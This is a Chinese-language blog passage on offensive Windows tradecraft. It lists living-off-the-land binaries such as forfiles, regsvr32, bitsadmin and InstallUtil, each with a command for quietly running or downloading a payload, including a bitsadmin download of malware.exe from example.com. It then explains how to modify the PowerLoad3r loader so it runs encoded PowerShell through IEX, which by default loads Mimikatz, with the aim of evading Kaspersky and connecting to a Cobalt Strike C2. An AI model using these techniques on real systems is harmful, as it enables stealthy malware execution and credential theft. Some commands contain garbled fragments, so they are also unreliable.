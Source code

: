   
Conhost在后台安静地运行 payloade44s headless，不会产生噪音  
```
conhost.exe — headless C:\Windows\System32\calc.exe
```  
  
  
Forfiles会默默循环并执行有效载荷，没有人会多看这个工具  
```
forfiles /P C:\Windows\System32 /M calc.exe /C “cmd /c calc.exe”
```  
  
  
Regsvr32通过 COM 对象加载脚本，绕过大多数防御措施（这一点很容易被检测到）  
```
regsvr32 /s /u /n /i:calc.exe scrobj.dll
```  
  
  
BITSAdmin（后台传输服务）秘密下载有效载荷  
```
bitsadmin /transfer job /download /priority high http://example.com/malware.exe C:\temp\malware.exe
```  
  
  
InstallUtil（.NET 实用程序）在安装期间运行恶意 .NET 程序集  
```
bash InstallUtil.exe /logfile= /LogToConsole=false /U malicious.dll
```  
  
  
Rasautou是的，你忘记了远程访问工具的存在，它会像幽灵一样默默地执行有效载荷  
```
rasautou.exe –d/-a C:\Windows\System32\calc.exe
```  
  
  
- PowerLoad3r 概述  
  
如何修改它以运行您想要的程序（如果您想了解它的功能以及它首先做什么，请转到本节的下一部分！）  
  
听说过 PowerLoad3r ( https://github.com/0xNinjaCyclone/PowerLoad3r ) 吗？没有？好吧，让我告诉你，这是一个专为运行 PowerShell 脚本而设计的工具，这个工具很厉害！它包含高级规避技术，你猜怎么着？它的一些魔法是用纯汇编和 C 语言制作的。很令人兴奋，对吧？  
  
但等等，还有更多！准备好升级了吗？让我们深入了解如何将 PowerLoad3r 与您选择的任何 C2 集成。  
  
那么，您知道 WriteToPipes 函数吗？这就是魔法开始的地方。您需要修改它的调用以记下 shellcode，默认情况下，它使用 IEX 在第 622 行加载和执行 Mimikatz，因此我们将在此处修改代码。首先，仅从 shellcode 计算 base64 编码文本的字符数大小。然后，计算这些 base64 字符的总和，并在上面添加一个锦上添花：额外的 8。是的，您没听错，添加 8（base64 字符 + 8），这就是您要作为参数赠送的大小。  
  
以下是一个小预览：  
  
```
WriteToPipe（“$s = \” JHUATQBOAEEAQQBBAD0AIgApACkAOwBJAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBp AHAAUwB0AHIAZQBhAG0AKAAkAHMALABbAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA= \" \n " , 392 ); WriteToPipe ( "$d = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($s)) \n " , 87 ); WriteToPipe ( "IEX $d \ n " , 7 );
```  
  
  
逃避卡巴斯基 PoC：与 CobaltStrike C2 集成：  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taegB05Ve4ZIB108iaBNHv7LI4j7YJU9GKB0Zjpy3yicSB2B07Gq5tGWrkVu9hExwicdicGibMdZjwmYOUw/640?wx_fmt=webp&from=appmsg "")  
  